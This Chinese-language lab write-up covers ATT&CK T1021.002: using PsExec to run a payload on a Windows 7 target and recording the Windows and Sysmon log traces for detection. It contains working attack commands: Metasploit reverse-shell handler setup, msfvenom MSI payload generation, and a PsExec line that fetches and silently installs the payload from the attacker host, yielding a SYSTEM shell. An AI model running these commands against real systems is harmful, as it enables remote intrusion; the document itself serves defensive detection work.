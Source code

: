 # T1021-002-win-基于白名单PsExec执行payload

## 来自ATT&CK的描述

攻击者可以使用服务器帐户阻止（SMB）使用有效帐户与远程网络共享进行交互。然后，攻击者可以以登录用户的身份执行操作。

SMB是同一网络或域上Windows计算机的文件，打印机和串行端口共享协议。攻击者可以使用SMB与文件共享进行交互，从而允许他们在整个网络中横向移动。SMB的Linux和macOS实现通常使用Samba。

Windows系统具有隐藏的网络共享，只有管理员才能访问它们，并提供了远程文件复制和其他管理功能。例如网络共享包括C$，ADMIN$，和IPC$。攻击者可以将此技术与管理员级别的有效帐户结合使用，以通过SMB远程访问网络系统；使用远程过程调用（RPC）与系统进行交互；传输文件；以及通过远程执行来运行传输的二进制文件。依赖于SMB/RPC上经过身份验证的会话的示例执行技术为计划任务/作业，服务执行和Windows管理规范。攻击者还可以使用NTLM哈希访问具有散列，特定配置和补丁程序级别的系统上的管理员共享。

## 测试案例

微软于2006年7月收购sysinternals公司，PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。

微软官方文档：

<https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec>

说明：PsExec.exe没有默认安装在windows系统。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

#### 生成payload

```bash
msfvenom -a  x86 --platform windows -p  windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f msi > shellcode.msi
```

#### 靶机执行

注意：需要管理员权限

```dos
PsExec.exe -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49371) at 2020-04-18 23:09:44 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getpid
Current pid: 2352
```

## 测试留痕

```log
windows 安全日志
EventID： 4688
进程信息:
新进程 ID: 0xe84
新进程名: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe

EventID： 4688
进程信息:
新进程 ID: 0xfcc
新进程名: C:\Windows\PSEXESVC.exe

EVentID：5140
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369
共享信息:
共享名: \\*\IPC$

EventID：5145
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369

共享信息:
共享名称: \\*\IPC$
共享路径:
相对目标名称: PSEXESVC

SYSMON日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.237
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00107a844001}
ProcessId: 3716
Image: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe
FileVersion: 2.2
Description: Execute processes remotely
Product: Sysinternals PsExec
Company: Sysinternals - www.sysinternals.com
OriginalFileName: psexec.c
CommandLine: PsExec.exe  -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Users\12306Br0\Desktop\PSTools\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=E50D9E3BD91908E13A26B3E23EDEAF577FB3A095
ParentProcessGuid: {bb1f7c32-1806-5e9b-0000-001070474001}
ParentProcessId: 3492
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.284
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ProcessId: 4044
Image: C:\Windows\PSEXESVC.exe
FileVersion: 2.2
Description: PsExec Service
Product: Sysinternals PsExec
Company: Sysinternals
OriginalFileName: psexesvc.exe
CommandLine: C:\Windows\PSEXESVC.exe
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=A17C21B909C56D93D978014E63FB06926EAEA8E7
ParentProcessGuid: {bb1f7c32-a6a0-5e60-0000-001025ae0000}
ParentProcessId: 496
ParentImage: C:\Windows\System32\services.exe
ParentCommandLine: C:\Windows\system32\services.exe

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.440
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00103c894001}
ProcessId: 1916
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: "msiexec.exe" /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ParentProcessId: 4044
ParentImage: C:\Windows\PSEXESVC.exe
ParentCommandLine: C:\Windows\PSEXESVC.exe
```

由于sysmon配置问题，只对进程创建行为进行监控

## 检测规则/思路

无具体检测规则，可根据PsExec特征进行检测。

## 参考推荐

MITRE-ATT&CK-T1021-002

<https://attack.mitre.org/techniques/T1021/002/>

基于白名单PsExec执行payload

<https://blog.csdn.net/ws13129/article/details/89879771>
